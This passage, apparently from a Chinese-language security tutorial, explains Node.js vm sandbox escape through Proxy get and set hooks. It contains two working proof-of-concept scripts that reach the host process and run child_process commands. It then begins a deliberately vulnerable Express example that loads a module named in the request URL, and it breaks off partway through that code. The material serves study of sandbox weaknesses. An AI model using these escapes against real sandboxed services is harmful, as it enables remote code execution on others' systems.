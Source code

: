 这里由于我们写入了一个拦截函数只接收数字的数组，我们这里 push 了一串字符串，于是拦截返回 false

利用==get==钩子

```plain
const vm = require("vm");

const script =
    `new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').exec('calc');
        }
    })
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res.abc)
```

这里利用`get`钩子进行触发沙箱逃逸的原理是，我们在 get 钩子里写了一个恶意函数，我们在沙箱外部访问 proxy 对象的任意属性 (不论是否存在) 这个钩子就会自动运行

利用==set==钩子

```plain
const vm = require("vm");

const func =
    `new Proxy({}, {
        set: function(my,key, value) {
        (value.constructor.constructor('return process'))().mainModule.require('child_process').execSync('calc').toString()
    }
})`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
res['']={};
```

这里利用`set`钩子写了一个恶意函数，因为我们写入的`set`钩子没有定义类型，当我们为{}对象添加属性时，会拦截执行我们写入的恶意函数从而实现 RCE

## 实例

```plain
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const config = {}


app.use(bodyParser.json());

app.post('/:lib/:f', (req, res) => {
  let jsonlib = require(req.params.lib);
  let valid = jsonlib[req.params.f](req.body);



  let p;
  if(config.p){
    p = config.p;
  }
```